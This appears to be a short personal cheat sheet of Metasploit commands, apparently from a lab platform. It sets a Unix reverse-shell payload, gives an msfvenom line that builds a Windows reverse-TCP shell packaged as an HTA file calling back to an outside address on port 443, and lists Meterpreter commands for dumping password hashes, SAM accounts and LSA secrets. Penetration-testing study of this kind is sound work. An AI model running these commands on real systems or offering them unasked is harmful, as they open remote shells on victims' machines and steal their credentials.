 # Metasploit Commands

```
set PAYLOAD payload/cmd/unix/reverse
```
# MSFVenom Commands

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
dump hashes in a meterpreter session
```
hashdump
```
dump sam users in a meterpreter session
```
lsa_dump_sam
```
dump secrets in a meterpreter session.
```
lsa_dump_secrets
```
